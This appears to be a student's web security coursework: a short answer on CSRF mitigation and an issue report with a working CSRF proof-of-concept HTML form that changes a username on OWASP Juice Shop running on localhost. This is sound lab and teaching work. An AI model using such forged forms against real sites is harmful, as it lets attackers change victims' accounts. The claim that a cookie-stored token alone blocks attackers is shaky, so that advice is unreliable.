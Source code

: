      - Basic authentication protocol
     - Cookie

   - Describe briefly how you can mitigate CSRF attacks (1 point)

     - Require CSRF token for every request that are submitted. CSRF token is a string that is generated for user and use it as a signature of user. CSRF token can store on client cookie, so attacker have no way to get the that token and use it to generated malicious code. We can embed the token in the form input and hidden it as shown below.

       ```html
       <form action="http://some-site/some-path" method="POST">
         <input type="text" name="someName" value="someValue">
         <input type='hidden' name='csrf' value='lHt7DDDyUNKoHCC66BsPB8aN4p24hxNu6ZuJA+8l+YA='>
         <input type="submit" value="submit">
       </form>
       ```

2. [Issue report] **Target => Juice Shop**: CSRF username (3 pts)

   **Title:** Attacker can perform CSRF to change the username of juice shop account.

   **Description:** Attcker can send a link of their website to some user which has a form of changing username of juice shop account. When user press button to submit the form, POST request will be called and username will be change to the desired value that attacker provide.

   **Step to produce:**

   - Write HTML to perform CSRF username modifying as shown below (the desired username will be in value of input field)

     ```html
     <!DOCTYPE html>
     <html>
     <body>
     	<form action="http://localhost:3000/profile" method="POST">
     		<input type="hidden" name="username" value="attacker">
     		<input type="submit" name="Set Username">
     	</form>
     </body>
     </html>
     ```

     Run this file on port 8000 by using command `python3 -mhttp.server`

   - After press submit button, it will redirect to juice shop profile page. You will see that the username is changed.

     **Before** change username screenshot

   <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week3/Screen Shot 2565-02-01 at 17.29.15.png" alt="Screen Shot 2565-02-01 at 17.29.15" style="zoom:50%;" />

   ​	**After** change username screenshot

   ​	![Screen Shot 2565-02-01 at 17.57.56](/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week3/Screen Shot 2565-02-01 at 17.57.56.png)

   **Impact Estimation:** Medium serverity because attacker can only change the username of victim and the victim can change it back anytime. In addition, if user did not click on the link that attacker sent to the, the action will not happen.
